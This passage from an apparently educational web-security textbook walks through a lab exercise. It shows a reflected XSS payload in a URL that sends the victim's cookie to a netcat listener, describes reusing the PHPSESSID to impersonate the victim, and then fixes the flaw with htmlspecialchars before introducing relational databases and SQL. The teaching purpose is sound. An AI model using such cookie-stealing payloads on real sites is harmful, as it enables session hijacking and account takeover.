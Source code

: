 >![[../images/09/xss_activity_listener.png|Netcat Listener on Port 9001|600]]
>The listener is standing by waiting for incoming connections.  With everything staged, the next step is to send the targeted victim a URL to Vulnerable Site with the malicious payload that will steal their cookie.  This requires that the victim be already logged into the Vulnerable Site.  Acting as the victim, and assuming the malicious link was sent to me by the attacker via email, I follow the URL and observe that the page partially renders but then hangs.
>```
>http://127.0.0.1/home.php?version=%3Cscript%3Evar%20i%3Dnew%20Image%3Bi.src%3D%22http%3A%2F%2F127.0.0.1%3A9001%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E
>```
>![[../images/09/activity_xss_exploit.png|Triggered Exploit|600]]
>From the attacker's perspective monitoring the Netcat server listening on port 9001, I can see an incoming connection that includes the user's cookie!  From here the attacker could take the `PHPSESSID` cookie value and embed it within their cookie jar to access the site as the victim.
>![[../images/09/xss_activity_cookie_captured.png|Attacker Captured Cookie|600]]
>The rendering of the version variable on the page is quite the vulnerability!  It can be mitigated through input validation, output encoding, or both.  I will mitigate the vulnerability using the PHP `htmlspecialchars` function where the value is rendered.  This output encoding strategy will eliminate the page's ability to execute the malicious JavaScript code.  The vulnerability is on the last line of the `footer.php` page resulting from an echo statement that concatenates the version GET parameter.
>![[../images/09/activity_xss_footer.png|Vulnerable Echo in Footer File|600]]
>I update the vulnerable echo statement by wrapping the GET concatenation with the built-in `htmlspecialchars` function and save the file.
>```php
>echo "Version: ".htmlspecialchars($_GET['version']);
>```
>Reloading the malicious URL now renders the payload in the version parameter on the page without executing it.
>![[../images/09/activity_xss_fixed.png|Retesting Fixed Application|600]]

### Relational Databases
Web applications store, update and retrieve data from databases as part of the back-end system.  One such system, **relational database management systems (RDBMS)**, stores data in a manner similar to Microsoft's Excel where tables of rows and columns contain values within fields.  There are several flavors of relational databases that vary slightly in their syntax but are mostly similar.  Some of the most popular relational databases available today include MySQL, PostgreSQL, Oracle Database, and Microsoft SQL Server.  The web application establishes a connection with the SQL database server, sends SQL statements, and collects data responses that are used within the response to a client request.  

![[../images/09/sql_connection.png|Server Connection to DBMS|250]]

The image above illustrates a web server's connection to RDBMS while sending a SQL query.  The data in these systems is interacted with using *structured query language (SQL)*, pronounced "sequel", which is coded into the business logic of a web application.  SQL is a human friendly language that prides itself on its intuitive readability.  The following image taken from a MySQL server shows a database CLI query.  The query `select * from users` requests a selection of all data from the table named users.  

![[../images/09/sql_table.png|SQL Statement Showing Table Data|400]]


[^1]: A03 Injection; OWASP Top 10.2021; March 10th 2024; https://owasp.org/Top10/A03_2021-Injection/
[^2]: CWE - CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection') (4.14); MITRE CWE; March 10th 2024; https://cwe.mitre.org/data/definitions/77.html
[^3]: WSTG - Stable; Testing for Command Injection; OWASP Foundation; March 10th 2024; https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection
[^4]: Google Advanced Search; Google; March 10th 2024; https://www.google.com/advanced_search
[^6]: aboul3la/Sublist3r: Fast subdomains enumeration tool for penetration testers; GitHub; March 13 2024; https://github.com/aboul3la/Sublist3r